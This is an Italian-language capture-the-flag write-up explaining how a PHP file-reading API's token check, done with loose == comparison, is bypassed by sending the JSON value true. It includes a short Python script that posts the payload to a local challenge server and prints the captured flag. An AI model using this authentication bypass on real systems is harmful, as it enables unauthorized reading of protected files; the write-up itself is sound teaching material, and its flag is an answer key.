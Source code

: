 # Evil Random (`evilrandom`)

La challenge espone un sito web che implementa una `API` che legge dei file in una cartella `/files`.
Non vengono date guide di utilizzo o documentazioni, ma abbiamo il codice, che letto fa capire come fare le richieste, che sono dei json strutturati in questo modo:

```json
{
    "file": "esempio",
    "token": "abcdefg",
    "lines": 5
}
```

e otteniamo delle risposte di questo tipo:

```json
{
    "text": "contenuto",
    "length": 100
}
```

Il problema è che per leggere più di 5 righe serve il **token**, che non abbiamo.

A questo punto il passaggio cruciale è accorgersi che la comparazione fra l'input dell'utente e il token è fatta con un ==, e non con un ===, rendendola vulnerabile a PHP type juggling.

![vuln](vuln.png)

Nello specifico, su PHP una stringa qualsiasi == `true`, quindi è sufficiente utilizzare `true` come token sul file `flag.txt` per ottenere la flag intera.

```python
import requests
d = {
    'file': 'flag.txt',
    'token': True,
    'lines': 100
}
r = requests.post("http://localhost:8002/", json=d)
print(r.text)
```

Flag: `rossiCTF{PHP_7yP35_4r3_H1l4r10u5_41e9c8}`